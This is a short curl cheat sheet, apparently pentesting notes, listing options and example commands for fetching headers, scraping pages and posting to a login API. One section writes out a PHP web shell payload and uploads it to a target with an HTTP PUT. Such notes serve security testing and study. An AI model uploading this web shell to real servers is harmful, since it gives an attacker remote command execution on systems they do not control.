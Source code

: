 # curl

## Options

`-d <data>` Sends  the specified data in a POST request to the HTTP server.
`-H <header>` Extra header to include in information sent.
`-i` Include the HTTP response headers in the output.
`-I` Fetch the headers only.
`-X <method>` Specifies the request method to use when communicating with the HTTP server.

## Examples

Get Header

	curl -I $TARGET_URL

Get everything

	curl -i $TARGET_URL

Get everything; follow redirect

	curl -i -L  $TARGET_URL

Check for title and all links

	curl -s -L $TARGET_URL | grep "title\|href" | sed -e 's/^[[:space:]]*//'

Look at page with just text

	curl -s -L $TARGET_URL | html2text -width '99' | uniq

Check if it is possible to upload using put
		
	curl -v -X OPTIONS http:/$TARGET_IP
	curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http:/$TARGET_IP/test/shell.php

Crafting a POST request against the login API

	curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

	